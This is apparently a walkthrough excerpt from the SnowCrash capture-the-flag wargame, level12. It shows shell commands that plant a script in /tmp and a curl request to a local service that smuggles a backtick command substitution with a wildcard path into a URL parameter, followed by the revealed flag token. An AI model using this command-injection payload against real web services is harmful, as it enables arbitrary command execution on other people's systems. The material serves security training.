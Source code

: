 level12@SnowCrash:~$ echo "getflag | wall" > EXP
level12@SnowCrash:~$ chmod 777 EXP
level12@SnowCrash:~$ mv EXP /tmp/
level12@SnowCrash:~$ curl localhost:4646/?x='`/*/EXP`'
                                                                               
Broadcast Message from flag12@Snow                                             
        (somewhere) at 13:12 ...                                               
                                                                               
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr                      
                                                                 